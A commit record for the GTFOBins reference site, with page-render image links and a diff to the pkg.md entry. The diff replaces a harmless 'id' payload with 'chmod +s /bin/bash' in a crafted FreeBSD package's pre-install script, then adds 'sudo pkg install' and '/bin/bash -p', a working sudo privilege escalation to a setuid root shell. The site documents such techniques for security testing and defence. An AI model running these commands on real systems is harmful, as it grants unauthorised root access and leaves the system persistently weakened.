

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/pkg.md, in a window 1280 px wide. Shown: the top 524 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update pkg.md

````diff
--- a/_gtfobins/pkg.md
+++ b/_gtfobins/pkg.md
@@ -5,9 +5,12 @@ functions:
         It runs commands using a specially crafted FreeBSD package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
         ```
         TF=$(mktemp -d)
-        echo 'id' > $TF/x.sh
+        echo 'chmod +s /bin/bash' > $TF/x.sh
         fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
         ```
       code: |
+        ```
         sudo pkg install -y --no-repo-update ./x-1.0.txz
+        /bin/bash -p
+        ```
 ---
````
